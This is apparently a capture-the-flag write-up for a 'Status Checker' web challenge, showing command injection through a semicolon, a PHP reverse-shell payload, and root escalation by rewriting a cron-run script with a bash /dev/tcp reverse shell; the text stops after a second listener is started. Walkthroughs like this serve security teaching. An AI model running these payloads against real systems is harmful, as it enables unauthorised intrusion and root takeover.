 We are given a site where we can check the status of websites.

Entering a valid URL such as ``https://google.com`` will return us the HTTP status code as seen in the following screenshot.

![wimg-1](https://github.com/lenebread/GiTxHextech-Challenge-Repo/blob/2172799693442df396d9857becae25e70e1ca596/challenges/web/Status%20Checker/images/wimg-1.png)

Entering a semi-colon (;) will break the command. We can try to use the payload ``; whoami``  and we are returned ``www-data`` as our user as seen in the following screenshot.

![[wimg-2]]

We can attempt to spawn a reverse shell by first having netcat listen on our desired port. In this example, the port will be 45101 and the netcat command will be ``nc -nlvp 45101`` as seen in the following screenshot.

![[wimg-3]]

Once its listening on the port, we can use the following payload to spawn the reverse shell. Replace "YOUR-IP-HERE" with your IP address.

```
; php -r '$sock=fsockopen("YOUR-IP-ADDRESS",45101);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Input the above payload into the input box as seen in the following screenshot.

![[wimg-4]]

Click on the "Check HTTP Status" and observe that the website has hung. Return to the netcat session and observe that we have gotten a shell as seen in the following screenshot.

![[wimg-5]]

We can spawn an interactive shell using the command ``script -qc /bin/bash /dev/null``. Once done, we can explore the system. Navigating to the ``/var/www/`` directory and we can see 2 files.

The files are:
- backup.sh - Owned by the root user.
- my-script.sh - Owned by the www-data user.

![[wimg-6]]

We can see that the ``backup.sh`` file runs the ``my-script.sh`` file as sudo, effectively running as the root user.

Using the command ``cat /etc/crontab``, we can see that there is a cronjob that runs the ``backup.sh`` file every minute. We can abuse this by changing the contents of the ``my-script.sh`` file.

As we own the ``my-script.sh`` file, we can modify it to spawn a reverse shell using the following commands:

```
echo '#/bin/bash' > my-script.sh
echo 'bash -i >& /dev/tcp/YOUR-IP-HERE/PORT-HERE 0>&1' >> my-script.sh
```

Replace ``YOUR-IP-HERE`` with your IP address and ``PORT-HERE`` with your desired port number. Once done, start another netcat listener on the port that was chosen in the above command. In this example, it will be 45102 as seen in the following screenshot.

![[wimg-7]]


